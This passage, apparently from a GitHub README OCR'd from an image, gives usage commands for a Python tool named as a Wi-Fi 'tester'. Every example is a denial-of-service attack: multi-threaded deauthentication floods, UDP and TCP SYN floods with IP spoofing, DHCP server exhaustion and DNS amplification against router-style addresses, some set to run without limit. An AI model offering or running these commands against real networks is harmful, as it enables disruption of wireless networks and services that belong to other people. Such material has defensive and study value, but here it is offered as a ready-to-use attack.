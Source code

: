 3. **Automated Attack Sequence:**
   ```bash
   sudo python3 auto_attack.py -i wlan0
   ```

### 💥 Advanced Attack Examples

#### Multi-Threaded Deauth Attack
```bash
# Advanced deauth with 20 threads
sudo python3 wifi_advanced_tester.py --deauth-advanced --bssid AA:BB:CC:DD:EE:FF -i wlan0 --threads 20

# Unlimited advanced deauth
sudo python3 wifi_advanced_tester.py --deauth-advanced --bssid AA:BB:CC:DD:EE:FF -i wlan0 --threads 15 --count 0
```

#### High-Intensity UDP Flood
```bash
# UDP flood with 50 threads, 1472 byte packets
sudo python3 wifi_advanced_tester.py --udp-flood -t 192.168.1.1 -p 80 --threads 50 --size 1472

# UDP flood on multiple ports
sudo python3 wifi_advanced_tester.py --udp-flood -t 192.168.1.1 -p 443 --threads 30
```

#### TCP SYN Flood Attack
```bash
# SYN flood with IP spoofing
sudo python3 wifi_advanced_tester.py --syn-flood -t 192.168.1.1 -p 80 --threads 40

# SYN flood on web services
sudo python3 wifi_advanced_tester.py --syn-flood -t 192.168.1.1 -p 443 --threads 35
```

#### DHCP Server Exhaustion
```bash
# DHCP discover flood with 25 threads
sudo python3 wifi_advanced_tester.py --dhcp-flood -i wlan0 --threads 25 --count 2000

# Continuous DHCP flooding
sudo python3 wifi_advanced_tester.py --dhcp-flood -i wlan0 --threads 20
```

#### DNS Amplification Attack
```bash
# DNS amplification with 20 threads
sudo python3 wifi_advanced_tester.py --dns-amp -t 192.168.1.100 --threads 20

# Targeted DNS amplification
sudo python3 wifi_advanced_tester.py --dns-amp -t 192.168.1.1 --threads 15
```
